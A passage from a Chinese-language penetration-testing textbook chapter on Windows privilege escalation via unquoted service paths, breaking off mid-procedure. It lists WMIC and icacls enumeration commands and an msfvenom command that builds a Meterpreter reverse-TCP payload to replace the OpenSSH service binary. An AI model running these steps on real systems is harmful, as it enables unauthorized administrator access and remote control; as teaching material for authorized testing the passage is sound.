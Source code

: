 1.  该过程的第一步是识别未被引号包围的服务路径，可以通过使用**Windows 管理工具**（**WMIC**）接口结合`findstr`工具来完成。在目标系统的 Windows 命令行中运行以下命令即可完成此操作：

    `wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\" |findstr /i /v """`

    此命令将输出一个带有未加引号服务路径的服务列表；在我们的案例中，我们能够识别出许多未加引号的服务路径，且可以利用它们。如以下截图所示，我们可以利用 OpenSSH 服务路径：

    ![图 8.1 – 查找未加引号的服务路径    ](img/B17389_08_001.jpg)

    图 8.1 – 查找未加引号的服务路径

    我们使用 OpenSSH 服务的原因是该服务需要管理员权限才能运行，因此它是在管理员用户下执行的。

1.  下一步是检查目录权限，以确定我们是否能够写入或更改 OpenSSH 服务目录的内容。我们可以使用**完整性控制访问控制列表**（**icacls**）工具检查目录的权限，通过运行以下命令：

    `icacls "C:\Program Files\OpenSSH"`

    如下截图所示，运行此命令会输出目录权限；在此案例中，系统上的标准用户具有写入权限，因此我们可以修改该目录的内容，因为我们是`BUILTIN\Users`组的成员：

    ![图 8.2 – 服务路径权限    ](img/B17389_08_002.jpg)

    图 8.2 – 服务路径权限

    我们可以利用这个错误配置来提升权限，通过将 OpenSSH 可执行文件替换为反向 shell 二进制文件。一旦 OpenSSH 服务已启动或重新启动，反向 shell 二进制文件将被执行，而不是 OpenSSH 可执行文件。

    提示

    反向 shell 有效负载应该与我们尝试利用的服务名称相同，并且应该上传到我们之前确定的相应服务路径。

1.  我们可以使用`msfvenom`生成 Meterpreter 有效负载并将其保存为可执行文件。可以通过在 Kali 中运行以下命令来实现：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER-IP> LPORT=<PORT> -f exe > /home/kali/Desktop/cygrunsrv.exe`

1.  在生成有效负载后，我们可以将其上传到 OpenSSH 服务路径，如下所示：

    C:\Program Files\OpenSSH\bin

1.  在上传 Meterpreter 有效负载之前，我们需要更改原始二进制文件的名称。然而，建议在该过程没有按预期工作时备份原始二进制文件。可以通过在 Meterpreter 会话中运行以下命令删除原始可执行文件：

    **删除 cygrunsrv.exe**
